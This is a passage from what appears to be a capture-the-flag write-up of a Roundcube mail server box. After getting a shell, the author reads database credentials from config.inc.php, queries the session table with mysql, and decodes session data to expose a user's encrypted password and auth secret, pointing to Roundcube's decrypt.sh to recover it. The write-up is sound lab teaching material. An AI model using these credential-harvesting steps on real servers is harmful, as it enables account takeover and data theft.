 5. Got the Shell.

## Step 4 - Digging 
A crucial discovery was made in the Roundcube configuration file located at `/var/www/html/roundcube/config/config.inc.php`. This file contained the credentials for the application's database.
```
$config = [];

// Database connection string (DSN) for read+write operations
// Format (compatible with PEAR MDB2): db_provider://user:password@host/database
// Currently supported db_providers: mysql, pgsql, sqlite, mssql, sqlsrv, oracle
// For examples see http://pear.php.net/manual/en/package.database.mdb2.intro-dsn.php
// NOTE: for SQLite use absolute path (Linux): 'sqlite:////full/path/to/sqlite.db?mode=0646'
//       or (Windows): 'sqlite:///C:/full/path/to/sqlite.db'
$config['db_dsnw'] = 'mysql://roundcube:RCDBPass2025@localhost/roundcube';
```
Found Database creds.\
Logging in to mysql doesn't give the results. As further investigation found that it was a race condition and executing the commands in same line using `-e` solves the problem.
```
mysql -u roundcube -pRCDBPass2025 -h localhost roundcube -e 'show tables;' -E
```
In the session table found some crisp information,
```
*************************** 1. row ***************************
sess_id: 6a5ktqih5uca6lj8vrmgh9v0oh
changed: 2025-06-08 15:46:40
     ip: 172.17.0.1
   vars: bGFuZ3VhZ2V8czo1OiJlbl9VUyI7aW1hcF9uYW1lc3BhY2V8YTo0OntzOjg6InBlcnNvbNjoic2hhcmVkIjtOO3M6MTA6InByZWZpeF9vdXQiO3M6MDoiIjt9aW............Ikczo1OiWF4dWlkIjtpOjM7fX1saXN0X21vZF9zZXF8czoyOiIxMCI7
```
## Step 5 - Decrypting
base64-encoded session data that when decoded revealed:
```
language|s:5:"en_US";imap_namespace|a:4:{s:8:"personal";a:1:{i:0;a:2:{i:0;s:0:"";i:1;s:1:"/";}}s:5:"other";N;s:6:"shared";N;s:10:"prefix_out";s:0:"";}imap_delimiter|s:1:"/";imap_list_conf|a:2:{i:0;N;i:1;a:0:{}}user_id|i:1;username|s:5:"jacob";storage_host|s:9:"localhost";storage_port|i:143;storage_ssl|b:0;password|s:32:"L7Rv00A8TuwJAr67kITxxcSgnIk25Am/";login_time|i:1749397119;timezone|s:13:"Europe/London";STORAGE_SPECIAL-USE|b:1;auth_secret|s:26:"DpYqv6maI9HxDL5GhcCd8JaQQW";request_token|s:32:"TIsOaABA1zHSXZOBpH6up5XFyayNRHaw";...
```
Extracted jacob’s encrypted credentials:

Password: `L7Rv0********TxxcSgnIk25Am/`\
Auth Secret: `DpYqv6maI9HxDL5GhcCd8JaQQW`\
> [!NOTE]
> The password is neither base64 encoded nor hashed, it’s encrypted using DES3.

> [!TIP]
> There is another decrypt.sh script in `/var/www/html/roundcube/bin/decrypt.sh` and we can get the cracked password.
